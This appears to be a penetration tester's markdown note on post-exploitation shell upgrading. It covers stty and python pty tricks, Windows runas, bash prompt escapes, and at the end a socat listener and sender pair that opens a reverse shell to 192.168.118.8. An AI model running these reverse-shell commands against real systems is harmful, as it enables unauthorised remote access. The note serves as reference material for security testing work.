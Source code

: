 ```yaml
---
tags:
  - PostExploitation
---
```

Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)

# Windows

By using the `runas` command, you can temporarily switch to a different user account that has more permissions, such as an administrator or root account. This can give you access to additional commands and resources that may not be available with your current shell.

To upgrade your shell using the `runas` command, simply specify the user account you want to switch to and the command you want to run. For example, you could run `runas /user:administrator cmd` to open a new command prompt window with administrator privileges.

# Linux 
# stty

Press `cntrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
# Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


# Bash 

## Notes

Special Bash characters which can return some information regarding the operating system.

|**Special Character**|**Description**|
|---|---|
|`\d`|Date (Mon Feb 6)|
|`\D{%Y-%m-%d}`|Date (YYYY-MM-DD)|
|`\H`|Full hostname|
|`\j`|Number of jobs managed by the shell|
|`\n`|Newline|
|`\r`|Carriage return|
|`\s`|Name of the shell|
|`\t`|Current time 24-hour (HH:MM:SS)|
|`\T`|Current time 12-hour (HH:MM:SS)|
|`\@`|Current time|
|`\u`|Current username|
|`\w`|Full path of the current working directory|
## Example 

```
/bin/bash -i
```

# SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```